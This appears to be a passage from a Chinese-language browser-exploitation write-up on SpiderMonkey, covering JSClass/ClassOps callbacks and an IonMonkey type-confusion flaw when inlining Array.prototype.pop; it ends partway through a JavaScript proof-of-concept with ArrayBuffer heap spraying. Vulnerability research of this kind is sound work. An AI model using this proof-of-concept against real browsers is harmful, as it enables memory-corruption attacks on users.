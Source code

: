 ```cpp
    nullptr,       // 无枚举属性的回调
    nullptr,       // 无解析属性的回调
    nullptr,       // 无 mayResolve 回调
    nullptr,       // 无 finalize 回调
};

// 自定义 JSClass
static const JSClass myClass = {
    "MyClass",           // 类名
    0,                   // 标志位
    &myClassOps,         // 指向 ClassOps
};

// 创建对象并触发 addProperty
void TestAddProperty(JSContext* cx) {
    // 创建对象
    JS::RootedObject obj(cx, JS_NewObject(cx, &myClass));

    // 添加属性，触发 addProperty 回调
    JS::RootedValue value(cx, JS::Int32Value(42));
    JS_DefineProperty(cx, obj, "myProp", value, JSPROP_ENUMERATE);
}
```

---

#### **运行结果**

当运行上述代码时，添加属性 `myProp` 会调用 `MyAddProperty` 函数，输出如下内容：

```plaintext
Property added!
```
也就是说我们添加属性的时候就触发了 ClassOps 表中第一个函数指针

# 基本攻击原理
## 类型混淆
- 原理：IonMonkey 在内联 Arrary.prototype 时，没有检查 prototype 上的索引元素。它只检查 Array prototype 链上是否有索引元素       

比如
```javascript
a.__proto__ --> b.__proto__ --> Array.prototype --> Object.prototype --> null
```
在 a 对象实例和 Array.prototype 间插入一个 b.__proto__ 原型，那么内联 pop 函数后保存此函数的地址，并在下次调用 Array.pop 时，所有这些查找都不需要重新计算，所以此时 b.__proto__ 原型相同索引上有和 a 对象中不同的属性就会引起类型混淆（当然触发它还需要使 a 变成稀疏数组）  

类型混淆 poc  

```javascript
buf = []
for(var i=0;i<100;i++)
{
  buf.push(new ArrayBuffer(0x20));
}
var abuf = buf[5];
var e = new Uint32Array(abuf);
const arr = [e, e, e, e, e];
function vuln(a1) {

    if (arr.length == 0) {
        arr[3] = e;
    }

    const v11 = arr.pop();
```